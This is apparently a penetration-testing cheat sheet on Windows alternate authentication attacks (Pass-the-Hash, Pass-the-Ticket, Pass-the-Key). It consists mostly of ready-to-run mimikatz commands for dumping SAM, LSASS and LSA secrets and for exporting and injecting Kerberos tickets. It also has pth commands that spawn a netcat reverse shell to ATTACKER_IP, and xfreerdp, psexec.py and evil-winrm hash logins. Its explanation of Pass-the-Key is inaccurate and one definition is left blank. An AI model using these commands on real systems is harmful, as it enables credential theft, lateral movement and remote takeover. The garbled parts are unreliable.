 --- ---

<h2>General</h2>

Alternate Authentication with Pass-the-Hash (PtH), Pass-the-Ticket (PtT), and Pass-the-Key (PtK) are methods for authenticating to a system without providing a plaintext password.

Pass-the-Hash (PtH) is an attack technique that allows an attacker to use a stolen password hash to authenticate to a system, without needing to know the plaintext password. This can be done by capturing the NTLM or LM hash of a user's password, which is stored on a Windows system when the user logs in.

Pass-the-Ticket (PtT) is an attack technique that allows an attacker to use a stolen Kerberos ticket to authenticate to a system, without needing to know the plaintext password. This can be done by capturing the Kerberos ticket that is issued to a user when they log in, and then using it to authenticate to other systems on the network.

Pass-the-Key (PtK) is an attack technique that allows an attacker to use a stolen encryption key to decrypt sensitive data, without needing to know the plaintext password. This can be done by capturing the encryption key that is used to encrypt a user's data and then using it to decrypt the data. (Steal key encryption of tickets)

All these methods are used by attackers to gain unauthorized access to a system by bypassing normal authentication mechanisms.

PtH = Using the hash to connect
PtT = Using ticket to connect
PtK = 

LOCAL VS ACTIVE DIRECTORY
	While using tools such has mimikatz, you can gather local hash and active direcotry hash from users. Take note that mimikatz is not the only tool you can use to find hashes, tickets and keys

---

<h2>Commands</h2>

To begin, one must acquire some hashes, tickets, or keys. This can be done using tools such as Mimikatz.

- Upload Mimikatz to the target System

<h3>Alternate Authentication (PtH)</h3>
```
mimikatz # privilege::debug
mimikatz # token::elevate

# Local Users
lsadump::sam

# AD Users
sekurlsa::msv

#Setup Lisener (Attacking Machine)
nc -lvnp PORT

# Launch Reverse Shell (Using nc64 ont the other machine, you can use other technique to launch a reverse shell (Example smb/psexec in msfconsole))
sekurlsa::pth /user:USER /domain:DOMAIN /ntlm:NTLM_HASH /run:"c:\tools\nc64.exe -e cmd.exe ATTACKER_IP PORT"
```
- Other Technique to pass the hash
	RDP      --> xfreerdp /v:VICTIM_IP /u:DOMAIN\\MyUser /pth:NTLM_HASH
	SMB      --> psexec.py -hashes NTLM_HASH DOMAIN/MyUser@VICTIM_IP
	WinRM  -->evil-winrm -i VICTIM_IP -u MyUser -H NTLM_HASH


<h3>Alternate Authentication (PtT)</h3>
```
mimikatz # privilege::debug
mimikatz # sekurlsa::tickets /export

# We can inject the tickets into the current session
kerberos::ptt [0;427fcd5]-2-0-40e10000-USER@MACHINE_DOMAIN (Change the tickets)

# Check the if you have the tiket permission
C:\> klist
```


<h3>Alternate Authentication (PtK)</h3>
```
mimikatz # privilege::debug
mimikatz # sekurlsa::ekeys

#Setup Lisener (Attacking Machine)
nc -lvnp PORT
```
b54259bbff03af8d37a138c375e29254a2ca0649337cc4c73addcd696b4cdb65
**If we have the RC4 hash:**
```shell-session
mimikatz # sekurlsa::pth /user:USER /domain:DOMAIN /rc4:RC4_HASH /run:"c:\tools\nc64.exe -e cmd.exe ATTACKER_IP PORT"
```

**If we have the AES128 hash:**
```shell-session
mimikatz # sekurlsa::pth /user:USER /domain:DOMAIN /aes128:AES128_HASH /run:"c:\tools\nc64.exe -e cmd.exe ATTACKER_IP PORT"
```

**If we have the AES256 hash:**
```shell-session
mimikatz # sekurlsa::pth /user:USER /domain:DOMAIN /aes256:AES256_HASH /run:"c:\tools\nc64.exe -e cmd.exe ATTACKER_IP PORT"
```

<h3>Dump LSAdump</h3>
```
mimikatz # token::elevate
mimikatz # lsadump::secrets
```
